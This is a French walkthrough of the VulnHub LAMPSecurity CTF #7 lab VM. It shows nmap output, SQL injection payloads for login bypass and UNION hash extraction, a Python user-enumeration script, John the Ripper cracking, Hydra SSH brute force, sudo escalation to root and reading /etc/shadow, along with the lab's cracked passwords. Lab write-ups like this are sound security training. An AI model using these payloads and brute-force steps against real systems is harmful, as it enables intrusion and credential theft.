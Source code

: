 ```yaml
---
title: "Solution du LAMPSecurity CTF #7 de VulnHub"
tags: [CTF,VulnHub]
---
```


Introduction
------------

Voici la solution [du CTF LAMPSecurity numéro 7](http://vulnhub.com/entry/lampsecurity-ctf7,86/). La VM est une image d'un système *CentOS* 6.3.  

Frankie Goes to Pwnywood
------------------------

```
Starting Nmap 6.46 ( http://nmap.org ) at 2014-07-16 08:25 CEST
Nmap scan report for 192.168.1.60
Host is up (0.00018s latency).
Not shown: 65526 filtered ports
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 41:8a:0d:5d:59:60:45:c4:c4:15:f3:8a:8d:c0:99:19 (DSA)
|_  2048 66:fb:a3:b4:74:72:66:f4:92:73:8f:bf:61:ec:8b:35 (RSA)
80/tcp    open   http        Apache httpd 2.2.15 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Mad Irish Hacking Academy
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn Samba smbd 3.X (workgroup: MYGROUP)
901/tcp   open   http        Samba SWAT administration server
| http-auth: 
| HTTP/1.0 401 Authorization Required
|_  Basic realm=SWAT
|_http-title: 401 Authorization Required
5900/tcp  closed vnc
8080/tcp  open   http        Apache httpd 2.2.15 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 302)
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Admin :: Mad Irish Hacking Academy
|_Requested resource was /login.php
10000/tcp open   http        MiniServ 1.610 (Webmin httpd)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Login to Webmin
| ndmp-version: 
|_  ERROR: Failed to get host information from server
MAC Address: 00:0C:29:9D:12:A9 (VMware)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.0 - 3.9
Network Distance: 1 hop

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.5.10-125.el6)
|   Computer name: localhost
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: localhost
|_  System time: 2014-07-01T09:08:59-04:00
| smb-security-mode: 
|   Account that was used for smb scripts: <blank>
|   User-level authentication
|   SMB Security: Challenge/response passwords supported
|_  Message signing disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol
```

Sur le port 80 se trouve un site fait avec *Bootstrap*... ce qui fait que l'on a l'impression de connaître le site avant même de l'avoir visité :p  

En haut de la page il y a un formulaire *"Sign in"* avec les champs username et password.  

La page retourne une erreur sql bavarde si on rentre **"'** comme nom d'utilisateur :  

```
Invalid query: You have an error in your SQL syntax;
check the manual that corresponds to your MySQL server version for the right syntax to use near ''" and password = md5("")' at line 1
Whole query: select username, user_id from users where username = ""'" and password = md5("")
```

Il semble qu'il soit alors possible de bypasser l'authentification en modifiant la requête SQL.  

Ainsi avec le nom d'utilisateur **" or 1;#** on se retrouve connecté en tant que *test@nowhere.com*.  

Il est alors possible d'accéder à des profils utilisateurs via des urls de la forme */profile&id=113*.  

Un petit script Python suffit à extraire les utilisateurs existants en cherchant les IDs entre 0 et 500.  

```python
#!/usr/bin/python
import requests

sess = requests.session()

for i in range(0, 500):
    url = "http://192.168.1.60/profile&id=" + str(i)
    r = sess.get(url)
    if 'mailto:"' not in r.content:
        print "id =", i, r.content.split("mailto:")[1].split('"')[0]
```

Le résultat obtenu est le suivant :  

```
id = 3 brian@localhost.localdomain
id = 4 john@localhost.localdomain
id = 5 alice@localhost.localdomain
id = 6 ruby@localhost.localdomain
id = 7 leon@localhost.localdomain
id = 8 julia@localhost.localdomain
id = 9 michael@localhost.localdomain
id = 10 bruce@localhost.localdomain                                                                                                                                                                            
id = 11 neil@localhost.localdomain                                                                                                                                                                             
id = 12 charles@localhost.localdomain                                                                                                                                                                          
id = 36 foo@bar.com                                                                                                                                                                                            
id = 113 test@nowhere.com
```

Vu que l'email utilisateur s'affiche dans la page une fois connecté, il doit être aussi possible d'utiliser une UNION pour faire afficher les passwords de l'utilisateur.  

Et... oui ! si on rentre **" union select password, 0 from users where user\_id=3;#** on obtient le hash du mot de passe de *Brian*.  

Comme il y a peu d'utilisateurs on peut se permettre de faire une énumération manuelle. Après quelques temps on a les hashs suivants :  

```
brian:e22f07b17f98e0d9d364584ced0e3c18
john:0d9ff2a4396d6939f80ffe09b1280ee1
alice:2146bf95e8929874fc63d54f50f1d2e3
ruby:9f80ec37f8313728ef3e2f218c79aa23
leon:5d93ceb70e2bf5daa84ec3d0cd2c731a
julia:ed2539fe892d2c52c42a440354e8e3d5
michael:9c42a1346e333a770904b2a2b37fa7d3
bruce:3a24d81c2b9d0d9aaf2f10c6c9757d4e
neil:4773408d5358875b3764db552a29ca61
charles:b2a97bcecbd9336b98d59d9324dae5cf
foo:4cb9c8a8048fd02294477fcb1a41191a
test:098f6bcd4621d373cade4e832627b4f6
```

Ça ne fait pas long feu avec une bonne wordlist :  

```
$ /opt/jtr/john --wordlist=mega_dict.txt --format=raw-md5 hash.txt 
Loaded 12 password hashes with no different salts (Raw MD5 [128/128 AVX intrinsics 12x])
changeme         (foo)
chuck33          (charles)
madrid           (julia)
my2cents         (brian)
qwer1234         (leon)
somepassword     (michael)
test             (test)
turtles77        (alice)
guesses: 8  time: 0:00:00:02 DONE (Wed Jul 16 13:28:15 2014)
```

Testons ces identifiants sur le serveur SSH. Ici pas question de les faire à la mano.  

```
$ ./hydra -L users.txt -P passwords.txt -e nsr ssh://192.168.1.60
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-07-16 13:30:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 88 login tries (l:8/p:11), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.60   login: brian   password: my2cents
[22][ssh] host: 192.168.1.60   login: leon   password: qwer1234
[22][ssh] host: 192.168.1.60   login: julia   password: madrid
[22][ssh] host: 192.168.1.60   login: michael   password: somepassword
[22][ssh] host: 192.168.1.60   login: charles   password: chuck33
[22][ssh] host: 192.168.1.60   login: alice   password: turtles77
[STATUS] attack finished for 192.168.1.60 (waiting for children to finish) ...
1 of 1 target successfully completed, 6 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-07-16 13:30:43
```

La vie de Brian
---------------

*Brian* a tous les droits et on le remercie :  

```
[brian@localhost ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for brian: 
Matching Defaults entries for brian on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brian may run the following commands on this host:
    (ALL) ALL
[brian@localhost ~]$ sudo su
[root@localhost brian]# head -1 /etc/shadow
root:$6$C85VH0UQ$ZFydP2qmc0DTBfK5x4UL9658RDdF/cAzRtRFv6SB7ctovLeEPV6BOzimsGtCQOYbQOXbH4Ek2FN4a0Lrsymb/0:15698:0:99999:7:::
```

Au passage on trouve d'autres mots de passe dans le fichier *.mysql\_history* de root :  

```
update users set password=md5('my2cents') where user_id = 3;
update users set password=md5('transformersrule') where user_id = 4;
update users set password=md5('turtles77') where user_id = 5;
update users set password=md5('qwer1234') where user_id = 7;
update users set password=md5('madrid') where user_id = 8;
update users set password=md5('somepassword') where user_id = 9;
update users set password=md5('LosAngelesLakers') where user_id = 10;
update users set password=md5('Jets4Ever') where user_id = 11;
update users set password=md5('chuck33') where user_id = 15;
update users set password=md5('chuck33') where user_id = 12;
```

Un goût de trop peu ?

*Published July 21 2014 at 22:09*
